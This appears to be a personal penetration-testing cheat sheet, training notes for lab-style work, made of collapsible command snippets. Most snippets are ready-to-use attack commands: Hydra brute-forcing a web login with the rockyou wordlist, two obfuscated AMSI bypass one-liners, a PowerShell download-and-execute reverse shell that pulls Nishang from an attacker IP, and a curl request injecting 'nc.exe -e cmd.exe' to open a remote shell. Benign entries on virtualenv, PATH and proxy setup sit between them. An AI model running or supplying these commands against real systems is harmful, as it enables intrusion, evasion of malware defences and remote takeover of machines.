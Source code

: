 ```yaml
---
tags:
- training material
created: 2020-01-01
lastmod: 2020-01-01
published: 2020-01-01
image: 
description: 
---
```


>[!code]- Recursively...
>###### Cat files
>```powershell
>#All
>find . -type f -exec cat {} + 2>/dev/null
># Non-binary files only
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && cat {}' \;
># Output filenames too
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && echo "=== {} ===" && cat {}' \;
>```
>###### Ls...
>```powershell
># Files
>ls -alR 2>/dev/null
>dir /S
>gci -recurse
>
># Directories
>gci -path "C:\" -directory -recurse -erroraction silentlycontinue
>```
>###### Find
>```powershell
>Get-ChildItem -Path "C:\" -Filter "local.txt" -Recurse -ErrorAction SilentlyContinue
>```

>[!code]- Brute force login
>###### Hydra
>```powershell
>hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
>```

>[!code]- Virtual python environment
>Must use a verson of virtualenv <= 20.21.1 as [later versions don't support python2 virtual environments](https://stackoverflow.com/questions/76380381/create-virtualenv-for-python-2-7-with-python-3-10).
>
>```powershell
># Create Python2 virtualenv
>virtualenv -p /usr/bin/python2 ./virtualenvs/2/env
># Create Python3 virtualenv
>virtualenv ./virtualenvs/3/env
>
># Activate virtualenv
>source ./virtualenvs/2/env/bin/activate
>source ./virtualenvs/3/env/bin/activate
>
># Deactivate
>deactivate
>```

>[!code]- TTY shell
>
>```powershell
>python -c 'import pty;pty.spawn("/bin/bash")'
>
>ctrl+z
>stty raw -echo; fg
>
>export TERM=xterm-256color
>```

>[!code]- Bypass AMSI
>###### Not checked as working
>```powershell
>sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```
>Or
>```
>S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```

>[!code]- PowerShell encoded reverse shell
>###### Setup listener to server nishang-ps-rev.ps1 (6666) & catch the reverse shell (5555)
>###### Encode a payload [via CyberChef](https://cyberchef.io/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8vMTAuMTAuWC5ZL05pc2hhbmctSW52b2tlLVBvd2VyU2hlbGxUY3AucHMxIik7IEludm9rZS1Qb3dlclNoZWxsVGNwIC1SZXZlcnNlIC1JUEFkZHJlc3MgMTAuMTAuWC5ZIC1Qb3J0IDEwMDA7IFdyaXRlLUhvc3QgIkJ1YmJ6Ig)
>```powershell
>IEX (New-Object Net.WebClient).DownloadString("http://10.10.X.Y/Nishang-Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.X.Y -Port 1000; Write-Host "Bubbz"
>```
>###### Execute the payload
>```powershell
>powershell -enc SQBFAF...BoAGUAaABlACIA
>```

>[!code]- Edit environmental PATH variable
>###### Windows
>```powershell
># Execute cmd and PS commands
>set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
>
>set PATH=%SystemRoot%\system32;%SystemRoot%;
>```

>[!code]- Auto URL-encode curl requests
>###### `-G --dataurlencode`
>```powershell
># General structure
>curl -G --data-urlencode `<parameter>=<parameter value>`  `<web address>`
>
># Example
>curl -G --data-urlencode '0=nc.exe -e cmd.exe 192.168.45.211 445' http://192.168.120.189:8080/commander.php
>
># Which is equivalent to
>http://192.168.120.189:8080/commander.php?0=nc.exe%20-e%20cmd.exe%20192.168.45.211%20445
>```

>[!code]- Paste a multi-line string into a file with EOF
>###### Linux
>Where you type the first line, paste in the multi-line string, then type EOF
>
>![Pasted image 20241211063448](Images/Pasted%20image%2020241211063448.png)

>[!code]- Route traffic through a proxy (Burp)
>###### Curl
>```powershell
># /etc/proxychains4.conf
>http 127.0.0.1 8080
># ----
>proxychains curl http://172.168.16.3:80
>```
>###### Nmap
>```powershell
># Not all Nmap features support the --proxies command
>nmap --proxies http://127.0.0.1:8080 SERVER_IP -p PORT -Pn -sC
>
>proxychains nmap # nmap commands
>```
>###### Metasploit
>```powershell
># Set a proxy for any exploit
># (with an exploit selected)
>set PROXIES HTTP:127.0.0.1:8080
>```